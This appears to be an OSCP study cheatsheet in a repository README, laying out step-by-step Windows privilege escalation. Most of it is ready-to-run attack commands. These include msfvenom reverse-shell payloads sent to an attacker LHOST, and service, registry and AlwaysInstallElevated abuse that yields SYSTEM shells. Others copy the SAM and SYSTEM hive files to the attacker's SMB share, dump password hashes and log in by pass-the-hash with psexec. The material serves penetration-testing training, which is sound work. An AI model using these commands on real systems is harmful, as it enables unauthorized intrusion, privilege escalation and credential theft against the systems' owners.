









# OSCP-cheatsheet
OSCP cheatsheet (testing mermaid)


### Manual privilege escalation

```mermaid
%%{
  init: {
    "theme": "default",
    "themeVariables": {
      "background": "#ffffff",
      "lineColor": "#000000",
      "primaryColor": "#ffffff",
      "primaryBorderColor": "#000000",
      "fontSize": "14px"
    }
  }
}%%

flowchart TB
  accTitle: Service exploits
  accDescr: A flowchart showing the flow of service exploits with decision points and colored arrows.

  Start([Manual privilege escalation]) --> Service_Exploits[Service Exploits]
  Start([Manual privilege escalation]) --> Registry[Registry]
  Start([Manual privilege escalation]) --> Passwords[Passwords]
  Start([Manual privilege escalation]) --> Scheduled_Tasks[Scheduled Tasks]
  Start([Manual privilege escalation]) --> Insecure_GUI_Apps[Insecure GUI Apps]
  Start([Manual privilege escalation]) --> Startup_Apps[Startup Apps]
  Start([Manual privilege escalation]) --> Token_Impersonation[Token Impersonation]
  Start([Manual privilege escalation]) --> Privilege_Escalation_Scripts[Privilege Escalation Scripts]
  
  %% --- Node coloring ---
  classDef green fill:#1b6e2d,stroke:#59e078,color:#fff
  classDef yellow fill:#e6b800,stroke:#e6b800,color:#000

  class Service_Exploits yellow
  class Registry yellow
  class Passwords yellow
  class Scheduled_Tasks yellow
  class Insecure_GUI_Apps yellow
  class Startup_Apps yellow
  class Token_Impersonation yellow
  class Privilege_Escalation_Scripts yellow

  %% --- Link coloring ---
  %% linkStyle 0 stroke:#0f0,stroke-width:2px
```

#### 1- reverse shell generation and file transfer

download [[AccessChk]] as following 
kali side
```powershell
wget https://download.sysinternals.com/files/AccessChk.zip
```

unzip it 
```powershell
unzip AccessChk.zip
```

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=135 -f exe -o reverse.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=135 -f exe -o reverse.msi
```

**Start [file transfer using SMB server](file%20transfer%20using%20SMB%20server)**
**kali side**
```powershell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On Windows (update the IP address with your Kali IP):
```powershell
#change C:\PrivEsc\reverse.exe to the target directory + file name
copy \\<% tp.frontmatter["LHOST"] %>\kali\reverse.exe C:\PrivEsc\reverse.exe
copy \\<% tp.frontmatter["LHOST"] %>\kali\reverse.msi C:\PrivEsc\reverse.msi

# tranfering accesschk.exe
copy \\<% tp.frontmatter["LHOST"] %>\kali\accesschk\accesschk.exe C:\PrivEsc\accesschk.exe
```

Test the reverse shell by setting up a netcat listener on Kali:
```powershell
sudo nc -nvlp 135
```

we can test the reverse.exe shell by running it:
```powershell
C:\PrivEsc\reverse.exe
```

#### 2- [Service Exploits](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/2-%20Service%20Exploits.md)


**1- Insecure Service Permissions**


→　Does the service run as LocalSystem? (SYSTEM privileges)
```powershell
sc qc <service-name>
```
if yes, 
→　Can modify config?
```powershell
C:\PrivEsc\accesschk.exe /accepteula -uwcqv <% tp.frontmatter["domain-username"] %> <service-name>
```
the "<% tp.frontmatter["domain-username"] %>" account has the permission to change the service config (SERVICE_CHANGE_CONFIG)?

if yes, Modify the service config and set the BINARY_PATH_NAME (binpath) to the reverse.exe executable you created:
```powershell
sc config <service-name> binpath= "\"C:\<path-to-reverse-shell>\reverse.exe\""
```

**2- Unquoted Service Path**



→　Does the service run as LocalSystem? (SYSTEM privileges)
→　Does the  BINARY_PATH_NAME is unquoted and contains spaces?

```powershell
# change unquotedsvc to whatever service has the same issue 
sc qc <service-name>
```
if yes,
→　Is path writable by Users? 
Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
```powershell
#change the path "C:\Program Files\Unquoted Path Service\" to your path
C:\<folder-path>\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```


→　Copy the reverse.exe executable you created to this directory and rename it Common.exe:
```powershell
# because we have the path has folder Common Files so Common.exe will get triggered first.
# change that path to the path you are targeting "C:\Program Files\Unquoted Path Service\Common.exe"
copy C:\<folder-path>\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```powershell
nc -lvnp 135
```

```powershell
net start <service-name>
```


 **3- Weak Registry Permissions**

Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
→Does it run as LocalSystem?
```powershell
sc qc regsvc
```

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
→　Is service writable by NT AUTHORITY\INTERACTIVE?
```powershell
C:\<folder-path>\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<service-name>
```


Overwrite the ImagePath registry key to point to the reverse.exe executable you created:
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\<service-name> /v ImagePath /t REG_EXPAND_SZ /d C:\<folder-path>\reverse.exe /f
```


Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```powershell
net start regsvc
```


**4- Insecure Service Executables**

Query the "`<service-name>`" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
```powershell
sc qc <service-name>
```


Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:
```powershell
C:\<folder-path>\accesschk.exe /accepteula -quvw "C:\<folder-path>\<service-name>.exe"
```


Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
```powershell
copy C:\<folder-path>\reverse.exe "C:\<folder-path>\<service-name>.exe" /Y
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```powershell
sudo nc -nvlp 135
net start <service-name>
```


Reference:
[1- reverse shell generation and needed file transfer](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/1-%20reverse%20shell%20generation%20and%20needed%20file%20transfer.md)
[Windows PrivEsc](Windows%20PrivEsc.md)


#### 3- [Registry](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/3-%20Registry.md)


**1- AutoRuns**

Query the registry for AutoRun executables:
```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:
```powershell
C:\<file-path>\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:
```powershell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (admin/password123) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!  
```powershell
rdesktop 10.10.180.16
```


**2- AlwaysInstallElevated**


Query the registry for AlwaysInstallElevated keys:
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Note that both keys are set to 1 (0x1).

On Kali, we have already generated a reverse shell Windows Installer (reverse.msi) using msfvenom and sent it already to the windows machine. 
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=135 -f msi -o reverse.msi
```

Start a listener on Kali and then run the installer to trigger a reverse shell running with SYSTEM privileges:  
```powershell
sudo nc -nvlp 135
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```


Reference:
[1- reverse shell generation and needed file transfer](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/1-%20reverse%20shell%20generation%20and%20needed%20file%20transfer.md)
[Windows PrivEsc](Windows%20PrivEsc.md)


#### 4- [Password](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/4-%20Password.md)


**1- Registry**

The registry can be searched for keys and values that contain the word "password":
```powershell
reg query HKLM /f password /t REG_SZ /s
```

If you want to save some time, query this specific key to find admin(administrator) AutoLogon credentials:
```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```
****
On Kali, use the one of the following commands to spawn a command prompt running with the system privileges:
```powershell
impacket-psexec <% tp.frontmatter["VHOST"] %>/<% tp.frontmatter["domain-username"] %>:<% tp.frontmatter["domain-password"] %>@<% tp.frontmatter["RHOSTS"] %>
```

**2- Saved Creds**



List any saved credentials:
```powershell
cmdkey /list
```

Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:
```powershell
runas /savecred /user:<% tp.frontmatter["domain-username"] %> C:\tmp\reverse.exe
```


**3- Security Account Manager (SAM)**



The SAM and SYSTEM files can be used to extract user password hashes. 

start SMB server on kali 
```powershell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

Find and Transfer the SAM and SYSTEM files to your Kali VM:
```powershell
# Usually %SYSTEMROOT% = C:\Windows

#%SYSTEMROOT%\repair
copy C:\Windows\Repair\SAM \\<% tp.frontmatter["LHOST"] %>\kali\
copy C:\Windows\Repair\SYSTEM \\<% tp.frontmatter["LHOST"] %>\kali\


#%SYSTEMROOT%\System32\config\RegBack\SAM
copy C:\Windows\System32\config\RegBack\SAM \\<% tp.frontmatter["LHOST"] %>\kali\
copy C:\Windows\System32\config\RegBack\SYSTEM \\<% tp.frontmatter["LHOST"] %>\kali\

#%SYSTEMROOT%\System32\config\SAM
copy C:\Windows\System32\config\SAM \\<% tp.frontmatter["LHOST"] %>\kali\
copy C:\Windows\System32\config\SYSTEM \\<% tp.frontmatter["LHOST"] %>\kali\

# check
C:\windows.old

# run the following command
#First go to c:
dir /s SAM
dir /s SYSTEM

```

on kali side, dump creds
```powershell
impacket-secretsdump -system SYSTEM -sam SAM local 
```

use the hash directly to login as system.
```powershell
impacket-psexec -hashes <% tp.frontmatter["domain-password-hash"] %> <% tp.frontmatter["domain-username"] %>@<% tp.frontmatter["RHOSTS"] %>
```


Reference:
[1- reverse shell generation and needed file transfer](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/1-%20reverse%20shell%20generation%20and%20needed%20file%20transfer.md)
[Windows PrivEsc](Windows%20PrivEsc.md)


